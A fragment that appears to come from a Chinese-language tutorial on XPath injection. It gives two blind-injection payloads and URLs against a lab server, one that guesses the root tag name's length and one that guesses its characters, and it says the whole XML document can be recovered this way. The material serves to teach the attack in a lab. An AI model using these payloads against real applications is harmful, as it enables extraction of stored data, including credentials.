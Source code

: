 >猜解标签名称的长度：http://10.37.129.3:8305/xpath1/index.php?name=x' or string-length(name(/*))=4 or '1'='1&pwd=x  
>
>[payload] x' or string-length(name(/*))=4 or '1'='1&pwd=x



> 猜解标签名称：http://10.37.129.3:8305/xpath1/index.php?name=x' or substring(name(/*),1,1)='r' or '1'='1&pwd=x
>
> [payload] x' or substring(name(/*),1,1)='r' or '1'='1&pwd=x
>
> .....进而可以盲猜这个xml的整个文档

![img](https://github.com/eagleatman/Injection/blob/master/%E6%B3%A8%E5%85%A5/xpath%E6%B3%A8%E5%85%A5/media/image-20211015231233693.png)



